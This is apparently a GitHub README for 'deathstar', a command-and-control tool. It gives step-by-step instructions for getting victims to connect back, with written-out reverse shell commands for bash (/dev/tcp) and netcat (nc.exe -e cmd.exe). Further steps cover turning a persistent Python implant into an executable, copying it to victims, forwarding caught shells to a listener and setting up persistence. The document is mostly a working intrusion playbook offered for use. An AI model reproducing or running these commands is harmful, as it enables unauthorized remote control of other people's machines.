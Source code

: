 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/e01272a6-1e5a-416c-8b56-45460317a349)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - BASH
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
  - Windows
    - NETCAT
    - This will drop the moment the C2 server 'drops'
        - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
    - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
        - On Kali
            - `find / -name nc.exe 2>/dev/null`
            - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
            - `python3 -m http.server 80`
        - On Windows
            - Powershell.exe
            - `.\stardestroyer.ps1`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
        - This will drop the moment the C2 server 'drops'
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

